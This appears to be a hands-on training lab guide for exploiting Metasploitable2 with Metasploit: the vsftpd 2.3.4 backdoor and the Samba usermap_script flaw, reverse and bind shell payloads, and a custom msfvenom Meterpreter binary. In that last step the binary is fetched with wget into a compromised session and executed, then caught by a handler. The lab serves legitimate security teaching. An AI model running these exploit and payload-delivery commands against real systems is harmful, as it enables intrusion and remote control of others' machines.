








# Exploitation Techniques 1 — Metasploit Framework: Exploits & Payload Delivery (35–40 Minutes)

> Lab Type: Exploitation Techniques  
> Tool: Metasploit Framework (msfconsole), msfvenom  
> Duration: 35–40 Minutes  
> System: Kali Linux (attacker), Metasploitable2 (target)

---

## Lab Overview

You're still on the SOC/red-team side of things, this time moving from "found a vulnerability" to "exploited it." Metasploit is the standard framework for turning a known vulnerability into working access, but a single exploit can be paired with different payloads — and the payload choice affects whether the exploit even works in a given network environment.

In this lab, you'll exploit two known-vulnerable services on Metasploitable2 (identified earlier via Nmap scanning) using Metasploit, working through four exploit/payload permutations rather than one, so the "exploit vs. payload" distinction is something you actually see in practice, not just read about — including building and delivering a fully custom payload with `msfvenom` rather than relying on a module's built-in payload list.

---

## Learning Objectives

By the end of this lab you will be able to:

- Search, select, and configure a Metasploit exploit module
- Explain the difference between staged and non-staged payloads, and why non-staged avoids a network-dependent fetch step
- Explain the difference between reverse and bind shell delivery, and when each is preferable
- Troubleshoot a "backdoor listener port already in use" condition when re-triggering a one-shot exploit
- Generate a custom standalone payload with `msfvenom` and catch it with a `multi/handler` listener
- Manage multiple concurrent Metasploit sessions, including safely backgrounding vs. aborting one

---

## Scenario

Earlier Nmap scanning flagged two backdoored/vulnerable services on Metasploitable2: vsftpd 2.3.4 (port 21) and Samba with `usermap_script` enabled (port 139). You'll exploit both from Kali using Metasploit — the vsftpd backdoor twice, with two different built-in payloads, the Samba vulnerability once with a bind shell instead of a reverse shell, and finally deliver a custom `msfvenom`-generated payload manually into an already-open session and catch it with a standalone listener.

---

## Module Search & Selection

### Objective

Confirm connectivity to the target, then find and inspect the vsftpd exploit module.

### Steps

1. Confirm Kali can reach the target before doing anything else:

   ```bash
   ip a
   ping -c 3 <target-ip>
   ```

2. Launch Metasploit:

   ```bash
   msfconsole
   ```

3. Search for and select the vsftpd module:

   ```
   search vsftpd
   use exploit/unix/ftp/vsftpd_234_backdoor
   show payloads
   ```

   

!!! warning
The module's default payload list includes staged options (e.g. `cmd/linux/http/x86/meterpreter_reverse_tcp`), which require the target to pull a second stage from a local HTTP fetch server Metasploit spins up. That fetch server can fail to bind depending on the network setup, in which case the exploit reports success but no session opens. Permutations 1–3 in this lab use non-staged payloads instead, which deliver the full payload in one shot and don't depend on that fetch step.

### Discussion Questions

??? question "What's the practical difference between an exploit and a payload in Metasploit?"

    The exploit is the code that triggers the vulnerability (in this case, the vsftpd 2.3.4 backdoor condition or the Samba `usermap_script` flaw); the payload is what actually runs once that trigger succeeds — a shell, a command, or a full agent like Meterpreter. The same exploit can be paired with different payloads, which is exactly what the permutations in this lab demonstrate — including, in Permutation 4, decoupling the payload from any exploit module at all.

---

## Permutation 1 — vsftpd Backdoor, Non-Staged Reverse Shell (netcat)

### Objective

Exploit the vsftpd backdoor using a non-staged reverse payload and confirm access.

### Steps

1. Configure and launch:

   ```
   set payload cmd/unix/reverse_netcat
   set RHOSTS <target-ip>
   set LHOST <kali-ip>
   show options
   exploit
   ```

2. Once the session opens, confirm access:

   ```
   whoami
   ```

   

3. Background the session — **Ctrl+Z**, then `y` to confirm:

   ```
   Background session <id>? [y/N] y
   ```

!!! warning
**Ctrl+Z backgrounds a session; Ctrl+C aborts it.** Pressing Ctrl+C inside an interactive session and confirming the prompt closes it entirely — there's no way back once that happens. Always use Ctrl+Z to step out of a session while keeping it alive.

---

## Permutation 2 — vsftpd Backdoor, Non-Staged Reverse Shell (python)

### Objective

Re-trigger the same exploit with a different payload, reinforcing that payload choice is independent of the exploit itself.

### Steps

1. Re-select the module and switch payloads:

   ```
   use exploit/unix/ftp/vsftpd_234_backdoor
   set payload cmd/unix/reverse_python
   set RHOSTS <target-ip>
   set LHOST <kali-ip>
   exploit
   ```

!!! warning
The vsftpd backdoor is a **one-shot trigger** — once Permutation 1 fired, the backdoor bound a listener to port 6200 on the target, tied to that session's underlying process. Re-running the exploit while that process is still alive fails with `Exploit aborted due to failure: ... Backdoor bind listener port 6200 is already open`, even after backgrounding the earlier session. If you hit this: foreground the earlier session (`sessions -i <id>`), find what's actually bound to the port with `ss -tlnp | grep 6200` (look for the `nc` process specifically, not its `sh` child — killing the shell alone won't free the port), and kill it with `kill -9 <PID>`. Killing the process that's carrying the session's own connection will close that session — that's expected once you've already got its screenshot.

2. Once the new session opens, confirm access:

   ```
   whoami
   ```

   

3. Background it — **Ctrl+Z**, then `y`.

### Discussion Questions

??? question "Why would you pick netcat vs. python as a payload?"

    netcat is smaller and faster but isn't guaranteed to be present on every target; python is heavier but far more commonly preinstalled on Linux systems and gives more options for stabilizing the shell afterward. Neither is universally "better" — the choice depends on what's actually available on the target.

??? question "Why did re-triggering the same exploit fail the second time?"

    The vsftpd 2.3.4 backdoor isn't a persistent listening service — it's a one-time condition triggered by a specific FTP login string, and the resulting shell listener stays bound to port 6200 for as long as the process handling it is alive. A second trigger attempt collides with that still-open port rather than spawning a fresh one, which is why the port has to be freed (by killing the process or closing the session) before the exploit can run again.

---

## Permutation 3 — Samba usermap_script, Bind Shell

### Objective

Exploit a second vulnerable service using a bind payload instead of a reverse one.

### Steps

1. Search for and configure the Samba module:

   ```
   search usermap_script
   use exploit/multi/samba/usermap_script
   set payload cmd/unix/bind_netcat
   set RHOSTS <target-ip>
   show options
   exploit
   ```

2. Confirm access:

   ```
   whoami
   ```

   

3. Background it — **Ctrl+Z**, then `y`.

!!! warning
Bind shells open the listener **on the target** and Metasploit connects in to it, the reverse of the previous two permutations. No `LHOST` is required here for that reason — only `RHOSTS`/target-side configuration.

### Discussion Questions

??? question "When would you choose a bind shell over a reverse shell in a real engagement?"

    Bind shells are useful when the target's inbound isn't firewalled but the attacker's own inbound is (or when NAT would block a reverse connection reaching back). Reverse shells are the more common default because most environments restrict inbound far more than outbound — the target reaching out to the attacker is usually the path of least resistance.

---

## Permutation 4 — Custom Payload with msfvenom + multi/handler

### Objective

Generate a standalone payload independent of any exploit module, catch it with a generic handler, and deliver it manually through an already-compromised session — demonstrating that payload delivery doesn't have to come from a Metasploit exploit at all.

### Steps

1. In a separate Kali terminal (not `msfconsole`), generate the payload:

   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=4444 -f elf -o shell.elf
   ```

   

2. Back in `msfconsole`, set up a generic handler to catch the callback:

   ```
   use exploit/multi/handler
   set payload linux/x86/meterpreter/reverse_tcp
   set LHOST <kali-ip>
   set LPORT 4444
   exploit -j -z
   ```

   

3. In another Kali terminal, serve the payload over HTTP from the directory containing `shell.elf`:

   ```bash
   python3 -m http.server 8000
   ```

4. Interact with any already-open session from Permutations 1–3 and deliver the payload from inside it:

   ```
   sessions -i <live-session-id>
   wget http://<kali-ip>:8000/shell.elf -O /tmp/shell.elf
   chmod +x /tmp/shell.elf
   /tmp/shell.elf
   ```

   Background it — **Ctrl+Z**, then `y`. Expect a brief pause while it calls back to the handler.

5. Confirm the new session was caught:

   ```
   sessions -l
   sessions -i <new-session-id>
   getuid
   ```

   

!!! warning
This permutation depends on already having a live shell to deliver the payload _through_ — `msfvenom` on its own only generates a file, it doesn't deliver or execute it. If `wget` isn't available on the target, `curl -o /tmp/shell.elf http://<kali-ip>:8000/shell.elf` works as a drop-in substitute. If the handler shows no callback after execution, double-check `LPORT` matches between the `msfvenom` command and the `multi/handler` configuration, and confirm the session you executed from is still alive.

### Discussion Questions

??? question "Why generate a payload with msfvenom instead of just using an exploit module's built-in payload option?"

    An exploit module's payload list is limited to what that specific module supports, and is always delivered as part of triggering that module's vulnerability. `msfvenom` decouples payload generation entirely from any exploit — useful when delivery happens through a channel Metasploit doesn't control directly, such as an already-open shell, a phishing attachment, or a dropped file, since the payload just needs to be executed by *any* means to call back to a waiting handler.

??? question "What's the role of exploit/multi/handler here, given no exploit is actually run against the target?"

    `multi/handler` doesn't exploit anything — it only starts a listener configured to match a specific payload type, LHOST, and LPORT, and waits for an incoming connection. It's the generic counterpart to the handler that a normal exploit module starts automatically, needed here because the payload is being triggered manually rather than by a module.

---

## Session Management

### Objective

Confirm multiple concurrent sessions are tracked correctly, and safely re-interact with one.

### Steps

1. List all active sessions:

   ```
   sessions -l
   ```

2. Re-interact with one of the listed sessions (use whatever ID actually appears in the list — session IDs aren't guaranteed to start at 1):

   ```
   sessions -i <id>
   whoami
   ```

   

3. Background it again — **Ctrl+Z**, then `y`.

!!! warning
Session IDs aren't reused once closed. Earlier sessions in this lab that were intentionally or accidentally closed (aborted via Ctrl+C, or closed while freeing port 6200 for Permutation 2) don't come back under the same ID — `sessions -i` on a closed ID returns `Invalid session identifier`. Always check `sessions -l` for what's actually live rather than assuming sequential numbering.

---

## Learning Outcomes

Having completed this lab, you have:

- Configured and launched Metasploit exploits against two different vulnerable services
- Distinguished staged vs. non-staged and reverse vs. bind payload delivery, and picked the appropriate one for each situation
- Diagnosed and resolved a "listener port already in use" condition caused by a one-shot exploit's backdoor process staying bound
- Generated a standalone payload with `msfvenom` and caught it with a `multi/handler` listener, independent of any exploit module
- Practiced safe Metasploit session control (Ctrl+Z vs. Ctrl+C) and confirmed multiple concurrent sessions via `sessions -l`
